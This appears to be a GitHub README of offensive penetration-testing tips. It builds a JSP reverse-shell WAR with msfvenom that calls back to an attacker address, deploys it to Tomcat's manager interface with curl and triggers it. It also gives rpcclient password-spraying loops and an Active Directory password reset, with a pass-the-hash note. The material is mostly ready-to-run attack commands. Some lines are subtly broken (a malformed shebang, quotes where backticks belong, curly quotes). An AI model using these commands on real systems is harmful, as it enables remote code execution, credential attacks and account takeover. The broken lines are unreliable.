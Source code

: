 # PenTips
Offensive security & penetration testing tips

### Tip 1
##### Tomcat
**Subject** : Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml).
<br/>(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application).

If the Host is configured with *unpackWARs=true* (server.xml) and you deploy a war file, it will be unpacked into a directory in your Host appBase directory.
<br/>`<Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">`

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**.
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl.
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload.
<br/>`curl -u 'tomcat':'password' http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`

### Tip 2
##### RPC password spraying

while read x; do echo $x; rpcclient -U “DOMAIN/$x%PasswOrd123” -c “getusername;quit” 192.168.0.110; done < ./userlist.txt

Using bash script:
<br/>`#/bin/bash`
<br/>`for u in 'cat dom_users.txt'`
<br/>`do echo -n "[*] user: $u" && rpcclient -U "$u%password" -c "getusername;quit" 10.10.10.192`
<br/>`done`

### Tip 3
##### AD user password modification using rpcclient
`user@host # rpcclient -U supportAccount //192.168.0.100`
<br/>[...] authenticate using the supportAccount password which needs to be modified
<br/>`rpcclient $> setuserinfo2 supportAccount 23 SuperNewPassword22`

--> Note : If package passing-the-hash is installed on attacker machine, you can even do this with just a NTLM hash. (Flag : --pw-nt-hash)
